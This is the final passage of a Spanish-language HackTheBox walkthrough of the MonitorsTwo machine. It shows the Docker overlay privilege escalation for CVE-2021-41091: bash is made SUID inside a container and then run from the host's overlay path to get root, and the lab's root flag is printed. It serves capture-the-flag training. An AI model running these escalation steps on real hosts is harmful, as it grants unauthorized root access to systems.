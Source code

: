 ```
│                                     shm        tmpfs      rw,nosuid,nodev,noexec,relatime,size=65536k
├─/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
│                                     overlay    overlay    rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4Z77R4WYM
└─/var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
                                      shm        tmpfs      rw,nosuid,nodev,noexec,relatime,size=65536k
marcus@monitorstwo:~$ 
```

En el resultado anterior se observan dos rutas asi que vamos a crear un archivo de pruebas desde el contenedor

```bash
# CONTENEDOR: creando archivo en el directorio raiz como usuario root (/)
touch /testing

# MARCUS: mostrando el contenido del directorio docker
marcus@monitorstwo:~$ ls /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
bin   dev            etc   lib    media  opt   root  sbin  sys      tmp  var
boot  entrypoint.sh  home  lib64  mnt    proc  run   srv   testing  usr

# CONTENEDOR: modificando el binario bash para que sea SUID
chmod u+s /bin/bash

# MARCUS: escalando privilegios usando el binario SUID
marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/
.bash_history  .cache/        .local/        root.txt       
.bashrc        cacti/         .profile       .ssh/          
bash-5.1# cat /root/root.txt
1ec867772e1fd89d38388f00a75ee04c
bash-5.1# 
```

## Referencias
- [Repositorio de Cacti](https://github.com/Cacti/cacti)
- [Mind2hex github repo](https://github.com/mind2hex/HackTheBox/tree/master/Machines/Linux/MonitorsTwo)
- [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [CVE-2021-41091](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41091)
- [CVE-2022-46169](https://nvd.nist.gov/vuln/detail/CVE-2022-46169)